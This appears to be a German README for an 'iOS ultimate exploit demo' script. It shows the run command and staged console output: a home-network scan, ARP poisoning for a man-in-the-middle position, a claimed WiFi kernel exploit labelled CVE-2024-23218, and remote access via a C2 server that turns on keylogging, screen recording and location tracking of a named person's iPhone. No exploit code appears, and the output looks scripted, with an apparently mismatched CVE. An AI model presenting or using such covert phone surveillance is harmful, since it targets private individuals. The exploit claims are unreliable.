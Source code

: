 ### **Demo mit konfiguriertem Ziel starten:**
```bash
python3 ios_ultimate_exploit_demo_configured.py --demo
```

## 📱 WAS PASSIERT DANN?

### **1. Netzwerk-Scan:**
```
📡 NETZWERK-SCAN AUSFÜHREN
🔍 Scanne Netzwerk nach Ziel: 192.168.1.150
📱 Gefundene Geräte:
   🎯 ZIEL 1. iPhone-14-Pro (192.168.1.150) - Max
   📱 2. iPhone-15-Pro-Max (192.168.1.100) - Kind 1
   📱 3. iPad-Pro (192.168.1.102) - Kind 3
   📱 4. MacBook-Air (192.168.1.103) - Parent
✅ Ziel gefunden: iPhone-14-Pro (192.168.1.150)
```

### **2. MITM-Attack:**
```
🦠 MAN-IN-THE-MIDDLE ATTACK
🎯 Ziel: iPhone-14-Pro (192.168.1.150)
🌐 Gateway: 192.168.1.1
   🔄 ARP-Cache vergiften...
   🔄 Traffic umleiten...
   🔄 MITM-Position etablieren...
   🔄 Verbindung überwachen...
✅ MITM-Attack erfolgreich!
📡 Alles Traffic von iPhone-14-Pro wird abgefangen
```

### **3. WiFi-Exploit:**
```
📡 WIFI-PAKET-INJECTION EXPLOIT
🎯 Ziel: iPhone-14-Pro (192.168.1.150)
🦠 Exploit: CVE-2024-23218 (WiFi arbitrary code execution)
   🔄 Malicious 802.11 Frames erstellen...
   🔄 Exploit-Payload vorbereiten...
   🔄 WiFi-Pakete injizieren...
   🔄 Kernel-Exploit auslösen...
   🔄 Code-Execution erreichen...
✅ WiFi-Exploit erfolgreich!
🚨 iPhone-14-Pro ist kompromittiert
```

### **4. Remote Access:**
```
📡 REMOTE ACCESS ETABLIEREN
🎯 Ziel: iPhone-14-Pro (192.168.1.150)
📡 C2 Server: 192.168.1.254
📱 Aktiviere Screen Recording...
   ✅ Screen Recording aktiv
📱 Aktiviere Keylogging...
   ✅ Keylogging aktiv
📱 Aktiviere Location Tracking...
   ✅ Location Tracking aktiv
...
🎉 Remote Access zu iPhone-14-Pro etabliert!
📊 15 Überwachungsmethoden aktiv
```
